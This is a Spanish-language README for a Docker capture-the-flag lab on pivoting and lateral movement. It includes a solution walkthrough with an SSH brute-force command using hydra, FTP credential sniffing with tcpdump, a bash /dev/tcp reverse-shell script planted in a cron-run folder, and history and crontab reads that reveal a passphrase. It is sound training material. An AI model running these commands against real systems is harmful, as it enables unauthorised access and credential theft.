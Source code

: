 # FTPivot

## 1. Descripción General

Este laboratorio es una simulación de un entorno de red diseñado para practicar técnicas de análisis y penetración de sistemas. Utiliza Docker para simular dos servidores diferentes, cada uno con configuraciones específicas destinadas a desafiar al usuario a utilizar una variedad de herramientas y técnicas de ciberseguridad.

## 2. Instalación y Despliegue

Antes del despliegue de nuestro laboratorio será necesario craer una red en Docker de tipo _bridge_:

```bash
docker network create ftpivot
```

### 2.1. Despliegue automático

Para desplegar el laboratorio bastará con ejecutar:

```bash
docker run -d --name ftpivot1 --network ftpivot -p [HostPort]:22 kradbyte/ftpivot:pivot1
docker run -d --name ftpivot2 --network ftpivot kradbyte/ftpivot:pivot2
```

No olvides reemplazar `HostPort` por el puerto de tu host por donde expondrás el servicio SSH.

### 2.2. Despliegue manual

Para construir tus propias imágenes deberás clonar el repositorio y construir las imágenes:

```bash
git clone https://github.com/kradbyte/elemental-labs.git
docker build -t kradbyte/ftpivot:pivot1 -f elementals-labs/5-FTPivot/Dockerfile.a elementals-labs/5-FTPivot
docker build -t kradbyte/ftpivot:pivot2 -f elementals-labs/5-FTPivot/Dockerfile.b elementals-labs/5-FTPivot
```

Luego podremos desplegar los contenedores:

```bash
docker run -d --name ftpivot1 --network ftpivot -p [HostPort]:22 kradbyte/ftpivot:pivot1
docker run -d --name ftpivot2 --network ftpivot kradbyte/ftpivot:pivot2
```

No olvides reemplazar `HostPort` por el puerto de tu host por donde expondrás el servicio SSH.

> **Nota**: Se recomienda no cambiar el nombre de los contenedores, dado que para las conexiones internas se utilizan estos nombres para la resolución de DNS. En caso se quiera cambiar el nombre de los contenedores se tendrán que cambiar los nombres en los archivos de configuración de las máquinas.

## 3. Descripción de laboratorio

En este laboratorio, deberás infiltrarte en un servidor para capturar una flag. Utilizarás una combinación de habilidades adquiridas previamente, además de introducirte en el concepto de movimiento lateral.

**Concepts**
Pivoteo: Exploración de dispositivos, servicios o redes internas que no son accesibles directamente desde la red pública.
Movimiento Lateral: Una vez se tiene acceso a un dispositivo, consiste en utilizarlo para ganar acceso a otros dispositivos dentro de la misma red.

**Steps**
- Gana acceso al servidor con SSH.
- Busca información relevante sobre posibles conexiones a otros hosts dentro de la red interna.
- Monitorea el tráfico de red y gana acceso al nuevo host (reverse shell).
- Consigue la llave para la nueva conexión.
- Con el nuevo usuario compara las flags que encontraste dentro del host y descifra la flag del laboratorio.

**Tools**
Nmap, NetCat, scripting bash, tcpdump, WireShark, SSH, curl, FTP.

**Grants**
- Verificar logs de lo que se esté trabajando o cualquier carpeta/archivo que contenga lo que se esté trabajando (SSH, la flag, FTP, etc.).
- Verificar tareas programadas.
- Usuario para SSH “guest”.

**Resultado**
Al final de este laboratorio, deberás ser capaz de entender y ejecutar un ataque de movimiento lateral dentro de una red simulada, utilizando herramientas y técnicas comunes en la ciberseguridad. La flag capturada demostrará tu éxito en el uso combinado de estos métodos y herramientas.

## 4. Solución del Laboratorio

### 4.1. Cracking de Credenciales

Primero deberemos crackear las credenciales de la SSH para acceder al primer host. La descripción nos proporciona el usuario "guest", por lo que deberemos descubrir la contraseña. Podremos utilizar alguna herramienta como _hydra_:

```bash
hydra -L guest -p /ruta/a/tu/diccionario ssh://ServerIP:ServerPort
```

No olvides reemplazar `ServerIP` y `ServerPort` por la IP del servidor donde está montado el servidor y el puerto por el que corre el servicio, en caso de haberse configurado para exponer SSH en otro puerto distinto al 22.

### 4.2. Búsqueda de la flag

Una vez dentro del servidor podremos buscar la flag con algún comando como los siguientes:

```bash
find / -name \*flag\* -type d 2>/dev/null
find / -name \*flag\* -type f 2>/dev/null
```

Al encontrar la flag nos daremos cuenta que hay dos flag, uno "old" y un "new", por lo que deberemos comparar las flag, pero una flag solo se pude leer por otro usuario, por lo que deberemos buscar alguna forma de conseguir el acceso al otro usuario.

### 4.3. Recolección de información

Al buscar dentro del servidor y llegar a las tareas cron, observaremos un par de tareas que se ejecutan por el usuario que necesitamos, así que podremos intentar capturar las peticiones para ver si podemos encontrar algo en el tráfico de red.

### 4.4. Monitoreo de Tráfico FTP

Para monitorear el tráfico utilizaremos tcpdump:

```bash
tcpdump -i eth0 -w trafic.pcap
```

Una vez tengamos capturado el tráfico podremos compartirlo con nuestro host principal para analizarlo con WireShark. Se recomienda montar un servidor http simple con capacidad PUT/POST.
Una vez analizado el tráfico y filtramos por FTP encontraremos las credenciales y la IP de la otra máquina, por lo que podríamos conectarnos por FTP y ver qué podemos encontrar en la otra máquina.

### 4.5. Acceso FTP y Manipulación de Scripts

Cuando hayamos obtenido las credenciales del FTP en el paso anterior podremos conectarnos al servicio. Recuerda conectarte por FTP desde el servidor, dado que este servicio corre en la red interna del servidor y no estará accesible desde host principal.
Al ingresar y listar lo que hay en el directario donde estamos notaremos que hay un script que ejecuta scripts en una carpeta, por lo que podremos crear nuestro propio script y ganar acceso a la máquina. Se recomienda hacer un script para una reverse shell, pero se es libre de optar por el camino que se gusta, como trabajar con la forward shell, ejecución de binarios externos trasferidos por FTP, etc.

```bash
#!/bin/bash
bash >& /dev/tcp/ClientIP/ListenPort 0>&1
```

### 4.6. SSH y Descubrimiento de PassPhrase

Al buscar dentro de la máquina en el historial de comandos en el archivo `.bash_history`, encontraremos un comando para conexión por SSH al usuario que necesitamos para leer la otra flag y al buscar la ruta de la llave, podremos conectarnos también al nuevo usuario encontrado. El problema es que si intentamos conectarnos nos pedirá una PasPhrase que no tenemos y deberemos buscar.
Si buscamos en las tareas programadas del usuario encontraremos la PassPhrase que buscamos:

```bash
cat /home/user/.bash_history
crontab -l
```

### 4.5. Conversión Hexadecimal y Descubrimiento de la Flag

Cuando nos hayamos conectado por SSH al usuario que necesitábamos podremos leer la otra flag, ahora bastará con darle permisos de lectura a todos los usuarios para que podamos comparar las dos flag. La diferencia resultante será un archivo ".txt" en hexadecimal, por lo que bastará con convertir el texto hexadecimal a un archivo legible y habremos resuelto el laboratorio.
